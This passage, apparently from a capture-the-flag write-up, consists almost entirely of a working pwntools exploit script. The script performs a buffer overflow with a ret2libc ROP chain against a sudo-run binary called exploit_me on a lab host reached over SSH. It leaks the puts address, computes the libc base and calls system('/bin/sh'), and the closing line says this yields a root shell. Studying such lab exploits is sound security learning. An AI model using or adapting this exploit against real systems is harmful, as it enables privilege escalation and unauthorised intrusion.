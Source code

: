 ```python
from pwn import *

#initializing binary, elf, libc etc.,
context.binary = binary = './exploit_me'
context.arch = 'amd64'

elf = ELF(binary)
rop = ROP(elf)

#padding, payloads and rop calls for address leak
padding = b"A"*40
rop.call(elf.sym['puts'], [elf.got.puts])  #calling puts to get the address of puts
rop.call(elf.sym['main'])                  #returning execution back to main function

payload = flat(
   padding, rop.chain())                  #chaining our inital payload together

#processes, interaction, finding puts leak
shell = ssh('zeeshan', '10.10.68.38', keyfile='id_rsa', port=22)   #using ssh to login with pwntools
#io = process(binary)
io = shell.process(['sudo','./exploit_me'])  #starting process with sudo

io.recvline()
io.sendline(payload)
leak = u64(io.recvline().rstrip().ljust(8,b'\0'))
log.info(f"Found puts leak at => {hex(leak)}")

#calculating base address of libc and rebasing
#matching leaked puts address with https://libc.blukat.me/ we get the required libc(amd64)
libc = ELF('libc6_2.23-0ubuntu11.2_amd64.so', checksec=False)
libc.address = leak - libc.sym['puts']
log.info(f"base address libc => {hex(libc.address)}")

#final payload to call /bin/sh
payload = padding
payload += p64(rop.find_gadget(['pop rdi', 'ret'])[0])
payload += p64(next(libc.search(b'/bin/sh')))
payload += p64(rop.find_gadget(['ret'])[0])
payload += p64(libc.symbols.system)

#poping shell
io.recvline()
io.sendline(payload)

io.interactive()
```

This will give us a root shell on the box.

-----------------
